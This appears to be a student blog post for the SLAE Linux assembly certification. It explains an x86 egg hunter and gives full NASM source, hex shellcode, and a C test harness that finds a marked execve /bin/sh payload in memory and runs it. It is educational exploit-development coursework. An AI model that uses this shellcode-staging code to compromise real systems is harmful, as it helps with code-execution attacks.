

# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 3
For the third assignment I need to solve the following tasks:
* Study about the Egg Hunter shellcode 
* Create a working demo of the Egghunter
* Should be configurable for different payloads

___

</br>

The Egg Hunter method is quite simple. It's based on two stages. The first part is the egg which is a costum combination of data/hex codes somewhere in the memory which is directly in front of your shellcode. The second part is the egg hunter which is searching for the egg in the memory and after that executes the shellcode after the egg. There are different functions which can be used to identify the egg. In my demo I will use the access function.

``` c
int access(const char *pathname, int mode);
```
For this function the address of the memory we want to check has to be in ebx (*pathname) and in ecx there has to be the mode which should be 0, which stands for existance check. We can check out all the pages in memory and if we don't get an EFAULT which would result in 0xfffffff2 in eax the page is readable and we can check there the bytes. Then we can iterate over that memory and check for the occurrence of our placed egg which we put in front of our shellcode two times.

So the first thing we have to do is defining the egg. This we can do in saving it in a register e.g. in esi. I use 0xabcd1337 as the egg.

``` assembly
xor eax, eax
mov ecx, eax
mov edx, eax

mov esi, 0xabcd1337
```
Next step ist to implement the pointer to the pages in this case we use edx register for that. In Linux the default page size is 4096 bytes which is 0x1000 in hex. So if we would add 0x1000 to edx every time there would be null bytes in our shellcode. So we can do a trick where we OR the dx register with fff and later increase it by 1 so the effective increase is 0x1000 without generating null bytes. Also we create the comparison of eax after accessing the access function which may result in an EFAULT 0xf2 in al if the pages is not readable. Then we can jump in case of a non readable page to incToNextPage. In case of a readable page we compare the bytes with our two placed eggs. If The comparison fails we move on to the next byte and compare the next memory for the occurrence of the egg.
``` assembly
incToNextPage:
or dx, 0xfff

incToNextByte:
inc edx
```


``` assembly
lea ebx,  [edx+8]
xor eax, eax     
mov al, 0x21
int 0x80
```


``` assembly
cmp al, 0xf2            
je incToNextPage
```


``` assembly
cmp [edx], esi
jnz incToNextByte

cmp [edx+4], esi 
jnz incToNextByte
```

At this point if there was no jump back we have found the egg 2 times so we are on the right position. Then because our eggs take 8 bytes of space we'll load the address after the eggs (+8 bytes) which is the start to our real shellcode. After getting the address we'll jump to this address which results in the execution of our shellcode.
``` assembly
lea edx, [edx+8] 
jmp edx          
```

To run this we first have to compile the nasm script the normal way and add the shellcode to the c file in my case I named this egghunter. On the other hand we have to define the egg which contains our execve-stack shellcode and before that 2 times our egg like you see in the following:
``` c
#include<stdio.h>
#include<string.h>

unsigned char egg[] =  "\x37\x13\xcd\xab\x37\x13\xcd\xab\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
unsigned char egghunter[] = "\x31\xc0\x89\xc1\x89\xc2\xbe\x37\x13\xcd\xab\x66\x81\xca\xff\x0f\x42\x8d\x5a\x08\x31\xc0\xb0\x21\xcd\x80\x3c\xf2\x74\xed\x39\x32\x75\xee\x39\x72\x04\x75\xe9\x8d\x52\x08\xff\xe2";

void main()
{

	printf("Shellcode Length:  %d\n", strlen(egghunter));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
When we now compile it and run it we see a working shell:



## Whole Assembly code
``` assembly
global _start
_start:
    xor eax, eax            ;clear all registers
    mov ecx, eax
    mov edx, eax
    
    mov esi, 0xabcd1337     ;define the egg to search for


incToNextPage:
    or dx, 0xfff            ;increase dx by 0xfff

incToNextByte:
    inc edx                 ;increase one byte / in combination with 0xfff we increase by 0x1000
    
                            ;read memory with access function
    lea ebx,  [edx+8]       ;load ebx register with a pointer to the memory we want to check
    xor eax, eax            ;reset eax for next instruction
    mov al, 0x21            ;access function 0x21
    int 0x80

    cmp al, 0xf2            
    je incToNextPage        ;jmp if al = 0xf2 (fault) and continue with the next memory address

    cmp [edx], esi          ;if no fault check for egg
    jnz incToNextByte       ;if not the 1st egg then check next memory address

    cmp [edx+4], esi        ;check the 2nd egg
    jnz incToNextByte       ;if not the 2nd egg then check next memory address

    lea edx, [edx+8]        ;load the addresscode after the egg
    jmp edx                 ;jump / execute the shellcode
```